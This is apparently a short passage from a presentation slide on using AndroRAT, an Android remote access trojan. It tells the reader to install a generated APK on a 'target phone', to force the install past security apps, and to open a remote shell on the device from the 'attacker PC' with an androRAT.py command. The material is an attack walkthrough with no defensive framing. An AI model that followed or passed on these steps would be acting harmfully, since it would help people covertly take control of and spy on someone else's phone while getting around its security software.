

# Connection in our computer
Install the APK: Transferred the Generated APK to the target phone and tried to install it. Sometimes some security apps may prevent this app from being installed in that case we have to force install it.

Opening Interpreter from the attacker PC:
                    python3 androRAT.py --shell [flags]